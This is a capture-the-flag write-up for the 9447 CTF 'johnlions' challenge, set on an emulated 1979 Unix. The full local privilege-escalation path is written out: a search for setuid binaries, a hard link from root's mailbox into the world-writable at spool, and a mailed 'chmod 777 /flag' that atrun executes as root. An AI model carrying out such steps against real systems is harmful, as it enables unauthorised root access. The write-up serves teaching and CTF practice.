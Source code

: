 #9447 CTF - johnlions (writeup)


####Description

 - johnlions (250pts)
 - telnet johnlions.9447.plumbing
 - login ctf


####Playing

The first thing done was to list the content of current dir. This revealed the precious flag, but as expected I couldn't read it.  
```
$ ls -la
total 134
drwxrwxr-x 9 root      272 Sep 22 06:38 .
drwxrwxr-x 9 root      272 Sep 22 06:38 ..
drwxrwxr-x 2 bin      2512 Sep 22 06:38 bin
-rwxr-xr-x 1 bin      8986 Jun  8  1979 boot
drwxrwxr-x 2 bin       208 Sep 22 05:56 dev
drwxrwxr-x 2 bin       336 Sep 22 06:24 etc
-r-------- 1 root       28 Sep 22 06:25 flag
drwxrwxr-x 2 bin       320 Sep 22 05:33 lib
drwxrwxr-x 2 root       96 Sep 22 05:46 mdec
drwxrwxrwx 2 root      112 Sep 22 06:36 tmp
-rwxr-xr-x 1 root    51982 Jun  8  1979 unix
drwxrwxr-x12 root      208 Sep 22 05:58 usr
$ cat flag
cat: can't open flag
```

The next thing done was to look for suid binaries and check if some of them can be used to 
escalate privileges.

```
$ find / -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
```


The /usr/lib/atrun seemed an interesting vector, it runs jobs queued by 'at'. This was abused in the past to execute commands as root. The attack is possible because the /usr/spool/at is writable by anyone. What is needed is to create a file in a specific format in this directory and wait to atrun execute it. We can create a link to a file owned by root and try to inject our commands there.

#### The attack

Create the link
```
$ ln /usr/spool/mail/root /usr/spool/at/88.265.0824.21
```

Now send a mail to root with the command you want to execute
```
$ mail root
chmod 777 /flag
```

Wait and see the result
```
$ ls -la /flag
-rwxrwxrwx 1 root       28 Sep 22 06:25 /flag
$ cat /flag
9447{h4cking_like_its_1979}
```

###The flag: 9447{h4cking_like_its_1979}
